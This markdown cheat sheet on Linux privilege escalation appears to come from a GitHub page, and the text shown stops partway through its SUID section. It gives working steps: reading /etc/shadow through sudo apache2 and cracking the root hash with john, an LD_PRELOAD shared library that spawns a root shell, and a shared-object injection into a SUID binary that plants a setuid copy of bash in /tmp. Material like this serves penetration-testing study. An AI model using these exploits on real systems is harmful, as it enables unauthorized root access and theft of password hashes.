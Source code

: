 

<br>

## sudo 
> *detection*
  - `sudo -l`
  - notice the list of programs that can run via sudo

> *exploitation*
### shell escaping
- https://gtfobins.github.io/

### abusing intended functionality
- __target linux__
  - `sudo apache2 -f /etc/shadow` 
  - copy root hash
- __attacker linux__
  - `echo '[Pasted Root Hash]' > hash.txt`
  - `john --wordlist=/usr/share/wordlists/nmap.lst hash.txt`
  - `john --show hash.txt`

### LD_PRELOAD
- notice that the LD_PRELOAD environment variable is intact
- save following program as (suppose) `x.c`
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```
- `gcc -fPIC -shared -o /tmp/x.so x.c -nostartfiles`
- `sudo LD_PRELOAD=/tmp/x.so apache2`


<br>

## SUID 
### shared object injection
- *detection*
  - `find / -type f -perm -04000 -ls 2>/dev/null`
  - `strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"`
  - notice that `a.so` file is missing from a writable directory
- *exploitation*
  - `mkdir /home/user/.config`
  - `cd /home/user/.config`
  - save following program as `libcalc.c`
```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```